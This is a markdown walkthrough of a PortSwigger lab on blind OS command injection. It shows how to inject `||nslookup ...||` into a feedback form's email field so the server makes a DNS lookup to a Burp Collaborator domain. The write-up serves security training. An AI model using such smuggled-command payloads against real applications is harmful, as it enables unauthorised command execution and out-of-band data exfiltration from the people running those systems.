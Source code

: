 # Blind OS command injection with out-of-band interaction

## This lab contains a blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

## The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response.

## it is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

## To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

---

### step 1

click on submit feedback and intercept the request

![[lab4_0.png]]

![[lab4_1.png]]


step 2

add `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`

burp collaborator => `ne5hvt6bna30e2cdp7h3vkix3o9fx5lu.oastify.com`

final payload 
`email=x||nslookup+x.ne5hvt6bna30e2cdp7h3vkix3o9fx5lu.oastify.com||`


![[lab4_2.png]]

![[lab4_3.png]]

step 3 

`email=test1%40email.com||nslookup+test1%40email.com.ne5hvt6bna30e2cdp7h3vkix3o9fx5lu.oastify.com||`
replace email with payload and forward request
go to  burp collaborator you will see some DNS if you can't see click on poll now and lab will solved

![[lab4_4.png]]

![[lab4_5.png]]


![[lab4_6.png]]

